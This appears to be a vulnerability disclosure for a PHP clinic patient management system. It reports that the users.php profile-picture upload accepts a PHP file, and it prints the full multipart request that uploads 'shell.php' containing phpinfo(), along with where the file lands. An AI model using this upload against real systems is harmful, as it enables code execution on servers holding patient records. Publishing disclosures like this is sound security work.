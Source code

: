 # Clinic's Patient Management System v1.0 has arbitrary code execution (RCE)

BUG_Author：WangWei

vendor: https://www.sourcecodester.com/php-clinics-patient-management-system-source-code

Vulnerability url: ip/pms/users.php

Request package for file upload：

```sql
POST /pms/users.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/pms/users.php
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=odknb2obdq1nkaqk7p7u8hvli8
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------21071748817745
Content-Length: 639

-----------------------------21071748817745
Content-Disposition: form-data; name="display_name"

1
-----------------------------21071748817745
Content-Disposition: form-data; name="user_name"

2
-----------------------------21071748817745
Content-Disposition: form-data; name="password"

2
-----------------------------21071748817745
Content-Disposition: form-data; name="profile_picture"; filename="shell.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
-----------------------------21071748817745
Content-Disposition: form-data; name="save_user"


-----------------------------21071748817745--
```

The files will be uploaded to this directory \pms\user_images

![image](https://user-images.githubusercontent.com/54017627/177025313-dc8bc083-5a55-42c8-be33-431abcdcd60c.png)

We visited the directory of the file in the browser and found that the code had been executed

![image](https://user-images.githubusercontent.com/54017627/177025322-787fde64-9b7a-48f4-af76-73902cdfac1e.png)
